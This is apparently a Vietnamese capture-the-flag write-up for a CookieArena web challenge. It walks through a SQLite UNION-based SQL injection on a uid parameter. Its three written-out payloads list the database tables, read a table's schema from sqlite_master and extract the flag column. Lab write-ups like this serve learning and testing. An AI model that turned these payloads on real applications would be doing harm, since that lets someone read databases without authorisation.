





https://battle.cookiearena.org/challenges/web/baby-address-note

- giao diện web:

- Nhập các giá trị uid = 1,2,3,4 được các giá trị sau:

-	Tức là chức năng uid có hoạt động giờ ta sẽ chèn kí tự đặc biệt kiểm tra xem web có validate nó ko

có validate giữ liệu r

- Dựa vào các giá trị uid =1,2,3,4 ta thấy có 3 cột giá trị trả về là uid, username, address
payload truy vấn để xem cột nào sẽ chứa file flag
    - payload: 1' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table'

- Có cột tên flag_h7vtt ta cần kiểm tra xem cột này có bao nhiêu cột bằng payload sau:
  - 1' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE name='flag_h7vtt'-- 

- tại sao lại cột 2 có giá trị là sql? Vì cột sql trong sqlite_matster chứa câu lệnh CREAT TABLE giúp ta biết bảng đó có những cột nào!

- Có một cột flag duy nhất, giờ ta sẽ lấy flag từ cột đó với payload:
  - 1' UNION SELECT 1,flag, 3 FROM flag_h7vtt-- 

lấy được giá trị flag từ bảng flag_h7vt
